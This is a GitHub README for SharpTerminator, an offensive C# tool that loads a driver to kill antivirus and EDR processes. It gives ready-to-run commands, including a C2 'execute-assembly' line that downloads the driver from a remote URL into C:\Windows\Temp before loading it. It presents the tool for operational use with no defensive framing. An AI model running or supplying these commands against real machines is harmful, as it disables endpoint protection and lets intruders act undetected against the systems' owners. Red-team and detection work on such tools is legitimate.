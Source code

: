 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

When using Remote URL, the driver is downloaded to "C:\Windows\Temp" and then loaded from there.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:
![image](https://github.com/mertdas/SharpTerminator/assets/48562581/8eb24a46-8c00-4cd3-8a73-42409b234114)

### Load driver from disk and terminate AV/EDR:

![image](https://github.com/mertdas/SharpTerminator/assets/48562581/232b67b0-f5c6-44cc-936d-d6acdb617a74)

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

